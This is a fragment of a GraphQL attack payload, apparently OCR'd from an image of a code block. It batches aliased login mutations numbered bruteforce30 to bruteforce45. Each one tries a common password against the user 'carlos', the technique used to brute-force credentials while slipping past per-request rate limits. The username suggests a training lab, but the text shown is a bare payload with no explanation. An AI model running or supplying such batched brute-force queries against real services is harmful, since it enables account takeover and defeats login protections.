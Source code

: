 ``` json
  bruteforce30: login(input: { password: "qazwsx", username: "carlos" }) {
    token
    success
  }
  bruteforce31: login(input: { password: "123qwe", username: "carlos" }) {
    token
    success
  }
  bruteforce32: login(input: { password: "killer", username: "carlos" }) {
    token
    success
  }
  bruteforce33: login(input: { password: "trustno1", username: "carlos" }) {
    token
    success
  }
  bruteforce34: login(input: { password: "jordan", username: "carlos" }) {
    token
    success
  }
  bruteforce35: login(input: { password: "jennifer", username: "carlos" }) {
    token
    success
  }
  bruteforce36: login(input: { password: "zxcvbnm", username: "carlos" }) {
    token
    success
  }
  bruteforce37: login(input: { password: "asdfgh", username: "carlos" }) {
    token
    success
  }
  bruteforce38: login(input: { password: "hunter", username: "carlos" }) {
    token
    success
  }
  bruteforce39: login(input: { password: "buster", username: "carlos" }) {
    token
    success
  }
  bruteforce40: login(input: { password: "soccer", username: "carlos" }) {
    token
    success
  }
  bruteforce41: login(input: { password: "harley", username: "carlos" }) {
    token
    success
  }
  bruteforce42: login(input: { password: "batman", username: "carlos" }) {
    token
    success
  }
  bruteforce43: login(input: { password: "andrew", username: "carlos" }) {
    token
    success
  }
  bruteforce44: login(input: { password: "tigger", username: "carlos" }) {
    token
    success
  }
  bruteforce45: login(input: { password: "sunshine", username: "carlos" }) {
    token
    success
```